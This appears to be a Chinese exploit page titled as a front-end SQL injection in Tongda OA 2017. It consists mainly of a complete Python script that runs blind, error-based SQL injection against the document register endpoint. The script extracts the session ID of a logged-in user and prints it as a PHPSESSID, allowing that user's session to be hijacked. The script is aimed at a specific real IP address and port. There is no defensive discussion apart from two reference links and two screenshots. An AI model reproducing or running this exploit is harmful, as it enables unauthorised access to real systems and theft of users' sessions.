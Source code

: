 # 通达2017OA前台SQL注入 generaldocumentindex.phprecvregisterinsert 获取session 

    https://blog.csdn.net/weixin_39779975/article/details/111091529

https://mp.weixin.qq.com/s/zH13q6xBRc58ggHqfKKi_g

## 脚本

```python
# -*- coding:utf-8 -*-
import requests

def hello(url, payload):
    result = ""
    payload_bak = payload
    for len in range(1, 27):
        str = '0'
        for i in range(0, 7):
            payload = payload.format(len, 6 - i, int(str + '0', 2))
            data = {payload: "1", "_SERVER": ""}
            r = requests.post(url, data=data, timeout=10, verify=False, allow_redirects=False)
            # print(r.status_code)
            if r.status_code == 302:
                str = str + '0'
            elif r.status_code == 500:
                str = str + '1'
            else:
                hello(url, payload)
            payload = payload_bak
        result += chr(int(str, 2))
        if int(str, 2) == 127:
            print("系统当前无正在登录的用户...")
            return result
        print("第%d位为: %s" % (len, chr(int(str, 2))))
    return result

def main():
    url = "http://60.190.185.74:88/general/document/index.php/recv/register/insert"
    payload = """title)values("'"^exp(if((ascii(substr((select/**/SID/**/from/**/user_online/**/limit/**/1),{},1))>>{}={}),1,710)))# """
    print("PHPSESSID=%s" % hello(url, payload))

if __name__ == "__main__":
    main()
```

![image](https://s1.ax1x.com/2023/04/06/ppIh8TU.png)

![image](https://s1.ax1x.com/2023/04/06/ppIhYY4.png)

